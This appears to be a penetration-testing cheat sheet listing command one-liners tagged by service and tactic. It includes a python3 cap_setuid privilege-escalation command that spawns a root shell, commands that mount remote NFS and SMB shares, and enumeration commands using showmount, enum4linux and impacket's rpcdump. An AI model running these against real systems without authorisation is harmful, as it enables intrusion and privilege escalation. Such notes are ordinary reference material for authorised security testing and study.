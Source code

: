 ```
# Check the links at the bottom for more examples and explanation
```
## exploit `cap_setuid` capability on python3 to gain a local root-shell
- `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

---

# mount
- service: smb
- tactics: enumeration
- tactics: inital_access

## mount shares
- `mount -o hard,nolock target-ip:/home folder`
- `mount -t cifs -o user=username,domain=domainname //target-ip/share /mnt/folder`

---

# showmount
- service: smb
- tactics: enumeration

## list Shares
- `showmount -e target-ip`

---

# enum4linux
- service: all
- tactics: enumeration

## scan target-ip
- `enum4linux target-ip`

---

# rpcdump.py
- service: rpc
- tactics: enumeration
- suites: impacket

## dump rpc endpoints
- `/opt/impacket/examples/rpcdump.py username:password@target-ip`

---